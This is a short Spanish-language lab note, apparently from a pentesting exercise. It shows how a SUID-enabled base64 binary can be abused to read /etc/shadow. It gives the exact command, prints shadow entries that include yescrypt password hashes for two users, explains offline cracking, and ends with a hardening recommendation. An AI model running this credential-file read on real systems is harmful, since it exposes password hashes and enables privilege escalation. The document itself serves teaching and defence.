 
## Exfiltrando el contenido de /etc/shadow usando base64

### Acción:

```bash
base64 /etc/shadow -w 0 | base64 -d
```

---

### Resultado:

```plaintext
root:*:20237:0:99999:7:::
daemon:*:20237:0:99999:7:::
bin:*:20237:0:99999:7:::
sys:*:20237:0:99999:7:::
sync:*:20237:0:99999:7:::
...
Metahumo:$y$j9T$pj9vEFTNDP4fTkirodqZ2/$cWUpXzVaKXv3ZuG//.KZGft47WfALFI.Acee7HBXjy8:20253:0:99999:7:::
User2:$y$j9T$pLRfTOCqrIpO87mYca2PA1$HXHUe2MYusy.Uzl9NDAQAlLgGcO95e7uKBd51AQSzhC:20253:0:99999:7:::
```

---

### Explicación:

- `base64 /etc/shadow -w 0` codifica el archivo `/etc/shadow` en base64 sin saltos de línea (`-w 0`).
    
- `| base64 -d` decodifica inmediatamente la salida, devolviendo el contenido original.
    
- Si `/usr/bin/base64` tiene permiso SUID, el usuario puede leer archivos restringidos (como `/etc/shadow`) aunque no tenga permisos para hacerlo.
    
- Esto permite obtener hashes de contraseñas y realizar ataques offline de **Cracking de hashes**.
    

---

## Riesgo

- Esta técnica es un ejemplo claro de cómo un binario SUID mal configurado puede comprometer la seguridad del sistema.
    
- Un atacante podría usar esta información para escalar privilegios o comprometer otras cuentas.
    

---

## Recomendaciones

- No otorgar el bit SUID a utilidades como `base64` que no requieren privilegios elevados para funcionar.
    